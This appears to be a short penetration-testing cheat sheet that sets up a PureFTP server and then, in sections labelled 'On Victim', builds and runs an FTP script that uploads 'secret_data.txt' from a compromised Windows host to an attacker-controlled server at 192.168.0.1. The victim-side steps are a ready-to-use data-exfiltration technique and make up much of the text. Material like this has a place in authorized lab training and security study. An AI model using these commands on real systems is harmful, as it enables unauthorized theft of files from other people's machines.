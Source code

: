 ## PureFTP
### Install

```
apt-get update && apt-get install pure-ftpd
```

### Create setupftp.sh Execute The Script

```
#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd myftpuser -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
sudo ln -s /etc/pure-ftpd/conf/PureDB /etc/pure-ftpd/auth/40PureDBexit
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
/etc/init.d/pure-ftpd restart
```

./setupftp.sh

### Get Service Ready
### Reset Password

```
pure-pw passwd offsec -f /etc/pure-ftpd/pureftpd.passwd
```

### Commit Changes

```
pure-pw mkdb
```

### Restart Service

```
/etc/init.d/pure-ftpd restart 
```

### Create FTP Script (On Victim)

```
echo open 192.168.0.1>> ftp.txt
echo USER myftpuser>> ftp.txt
echo mypassword>> ftp.txt
echo bin>> ftp.txt
echo put secret_data.txt>> ftp.txt
echo bye >> ftp.txt
```

### Execute Script (on Victim)

```
ftp -v -n -s:ftp.txt
```

